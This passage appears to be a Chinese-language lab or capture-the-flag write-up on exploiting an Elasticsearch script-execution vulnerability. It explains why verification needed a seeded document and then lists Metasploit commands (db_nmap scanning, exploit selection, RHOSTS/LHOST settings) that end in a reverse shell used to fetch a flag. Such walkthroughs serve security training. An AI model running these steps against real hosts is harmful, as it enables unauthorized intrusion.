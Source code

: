 **原因分析**:
之前验证的逻辑是
发送测试脚本：S_test = "2+3"

检查响应：若 R 包含 "test": [5] → 漏洞存在

逻辑表达式：f(S_test) == R_expected

最初验证失败的原因是：空数据库导致查询结果集为空，使脚本执行被跳过（hits.total=0 → 不执行 script_fields）

而这条脚本完成了关键步骤：

graph LR
A[创建索引/文档] --> B[构建有效查询环境]
B --> C[激活脚本执行]

**具体原理**：
创建存储结构：
```/website/blog/``` 创建了：
索引(Index): ```website```
类型(Type): ```blog```
```{"name":"test"}``` 插入一条文档(Document)
在文档添加完后，自然的会生成索引。
```
满足存在量词 ∃
通过创建文档，使 ∃ Doc 成立

打破执行约束
空数据库时：∀ Doc, Doc ∉ Database ⇒ Search(Doc) = ∅
插入后：∃ Doc, Doc ∈ Database ⇒ Search(Doc) ≠ ∅
```

4. **在验证成功后，开始进行漏洞利用**
- 使用工具：metasploit
- 漏洞利用步骤：
    1. 初始化metasploit并启用   
    ```bash
    sudo msfdb init
    msfconsole
    db_status # 查看数据库状态
    workspace -a anjing #创建工作空间
    ```
    2. 开始进行漏洞利用
    ```bash
    #信息收集
    db_nmap -p <port> 192.168.70.4 -n -A
    # 查看可用的exploit
    search elasticsearch type:exploit
    # 2015年的漏洞
    use 1
    ```
    ![](./images/查看到端口开放.png)
    ![](./images/再metasploit中搜索关于elastic的exploit.png)
    ```ruby
    #  设置参数
    show options
    set RHOSTS 192.168.70.4
    set RPORT <映射端口，每次不一样>
    set LHOST 192.168.70.7
    show payloads
    set payload <random>
    #  利用漏洞
    exploit
    ```
    ![](./images/elasitc可用的payload.png)
    ![](./images/拿到反弹elastic%20shell.png)
    3. 拿到shell之后就可以进行flag的获取
```